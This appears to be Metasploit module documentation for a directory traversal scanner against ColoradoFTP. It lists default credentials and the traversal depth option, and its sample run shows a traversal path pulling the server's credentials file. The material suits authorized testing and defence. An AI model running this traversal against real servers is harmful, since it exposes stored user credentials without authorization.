 ## Notes

While the application is based in java, I was only able to get it to exploit against Windows based targets.

## Vulnerable Application

  [official site](http://cftp.coldcore.com/files/coloradoftp-prime-8.zip?site=cft1&rv=19.1&nc=1) or [github backup](https://github.com/h00die/MSF-Testing-Scripts/raw/master/coloradoftp-prime-8.zip)
  
When installing, you must edit conf/beans.xml line 182 "localIp" to put in your IP or else `pasv` won't work.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/ftp/colorado_ftp_traversal`
  4. Do: `set rhosts <ip>`
  5. Do: `run`
  6. You should get the xml-users.xml file

## Options

  **FTPUSER**

  Default user for Colorado FTP is `ftpuser`

  **FTPPASS**

  Default password for Colorado FTP is `ftpuser123`

  **DEPTH**

  Default depth of ../ to do is 2 to get back to the root of Colorado FTP.  This can run anywhere, so you may have to play a bit to find the root.

## Scenarios

  A run to obtain the user file (default in this case)

    msf > use auxiliary/scanner/ftp/colorado_ftp_traversal
    msf auxiliary(colorado_ftp_traversal) > set rhosts 1.1.1.1
    rhosts => 1.1.1.1
    msf auxiliary(colorado_ftp_traversal) > set verbose true
    verbose => true
    msf auxiliary(colorado_ftp_traversal) > exploit
    
    [*] 1.1.1.1:21      - Connecting to FTP server 1.1.1.1:21...
    [*] 1.1.1.1:21      - Connected to target FTP server.
    [*] 1.1.1.1:21      - Authenticating as ftpuser with password ftpuser123...
    [*] 1.1.1.1:21      - Sending password...
    [*] 1.1.1.1:21      - \\\..\..\conf\xml-users.xml
    [*] 1.1.1.1:21      - 150 Opening A mode data connection for \\\..\..\conf\xml-users.xml.
    
    [*] 1.1.1.1:21      - Data returned:
    
    <users>
    
      <user name="ftpuser" pass="ftpuser123"/>
    
    </users>
    [+] 1.1.1.1:21      - Stored conf\xml-users.xml to /root/.msf4/loot/20160918184409_default_1.1.1.1_coloradoftp.ftp._168381.xml
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
